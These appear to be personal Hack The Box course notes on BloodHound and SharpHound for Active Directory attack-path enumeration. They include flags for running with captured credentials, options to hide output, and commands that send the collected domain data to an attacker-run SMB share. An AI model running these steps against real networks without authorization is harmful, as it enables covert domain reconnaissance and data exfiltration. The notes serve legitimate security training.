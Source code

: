 ```
cd /usr/bin  
sudo ./neo4j console
```
## Active Directory Access Management
Active environments are highly complex and constantly evolving. So we need a way to automate the collection and analysis of this data.

### Bloodhound Overview
*Bloodhound* is an opensource tool used by attackers and defenders to analyze *Active Directory* domain security. This tool collects a large amount of data from an *Active Directory* domain.
It uses graph theory to visually represent the relationship between objects and identify domain attack paths that would be difficult/impossible to detect via traditional enumeration.

Data utilized by bloodhound is gathered with *SharpHound* collector.

### Bloodhound Graph Theory and Cypher Query Language
*Bloodhound* utilizes *Graph Theory* mathematical structures to represent pairs between objects. The graph is made up of *Nodes* (`Users, Groups, Computers, etc`) which are connected by *Edges* (`relationships between, i.e. member of group`). 

*Bloodhound* uses *Cypher Query Language* to analyze relationships. *Cypher* is *Neo4j's* `graph query language` which is like `SQL` for graphs.

The Diagram Below shows two nodes `A` and `B` 
![[2Nodes.png]]
This simulated User `Grace` being represented by node `A` and the group `SQL Admins`, the line between the two is the *edge* in this case `MemberOf`. 
We can ask bloodhound how to get from *Grace* to the *Domain admins* group.
![[NodeMap.png]]

*Bloodhound also had enterprise edition.*

## Sharphound
*Sharphound* is the program we use to collect *Bloodhound* data for *Windows*.
The data collected can be used to identify 

### Basic Enumeration
By default *Sharphound*, if run without any options, will identify the domain to which the user who ran it belongs to and will execute default collection.

The 2nd line in the output above indicates the collection method used by default: `Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote`. Those methods mean that we will collect the following:

1. Users and Computers.
2. Active Directory security group membership.
3. Domain trusts.
4. Abusable permissions on AD objects.
5. OU tree structure.
6. Group Policy links.
7. The most relevant AD object properties.
8. Local groups from domain-joined Windows systems and local privileges such as RDP, DCOM, and PSRemote.
9. User sessions.
10. All SPN (Service Principal Names).

To get the information for local groups and sessions, *SharpHound* will connect to each `domain-joined` *Windows* computer from the list of computers it collects.

## Using Bloodhound
1. Use *Sharphound*
2. Download .zip file
3. Go to *Bloodhound* > `Upload Data`
4. Once upload complete we can type `Domain:<DOMAIN>` into the search box  and a node
5. Now we can start analyzing the data.

### SharpHound Options
#### Collection Methods
`--colectionmethod` specifies what kind of data we want to collect. 

- *All* : performs all collection methods except *GPOLocalGroup*
- *DCOnly*: Collects data only from the domain controller and ill not try to get data from domain-joined Windows devices. It will collect `users, computers, security groups membership, domain trusts, absuble permissions on AD objects, OU structure, Group Policy, and the most relevant AD object properties.` It will attempt to correlate Group Policy-enforced local groups to affected computers.
- *Computer Only*: Opposite of *DCOnly*, it will collect information from domain-joined computers, such as user sessions and local-groups.

In situations where we may want to limit our traffic i.e. *Domain Controller* with 2000 Computers and a *SOC* as opposed to *Sharphound* attempting to connect to all of our devices, we could use *DCOnly* and only attempt to connect to the *Domain Controler*.

We can then add interesting machines to a list (`computers.txt`) and rerun *SharpHound* in *ComputerOnly* using the `--computerfile` options to only enumerate those computers.

![[Pasted image 20250114011734.png]]
#### Commonly Used Flags
- `-ldapusername` `-ldappassword` options to run *SharpHound* using captured credentials.
- `-domain` Used to specify specific domains.
- `--domaincontroller` specific domain controller.

#### Randomize and hide SharpHound Output.
| **Option**          | **Description**                                               |
| ------------------- | ------------------------------------------------------------- |
| `--memcache`        | Keep cache in memory and don't write to disk.                 |
| `--randomfilenames` | Generate random filenames for output, including the zip file. |
| `--outputprefix`    | String to prepend to output file names.                       |
| `--outputdirectory` | Directory to output file too.                                 |
| `--zipfilename`     | Filename for the zip.                                         |
| `--zippassword`     | Password protects the zip with the specified password.        |
We can use the `--outputdirectory` to target a shared folder and randomize everything. 
##### Starting a shared folder
```shell-session
 sudo impacket-smbserver share ./ -smb2support -user test -password test
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
```

##### Connect to the shared folder with username and password.
```cmd-session
net use \\10.10.14.33\share /user:test test
```
##### Running SharpHound and saving the output to a shared folder.
```cmd-session
SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames
```

### Session Loop Collection Method
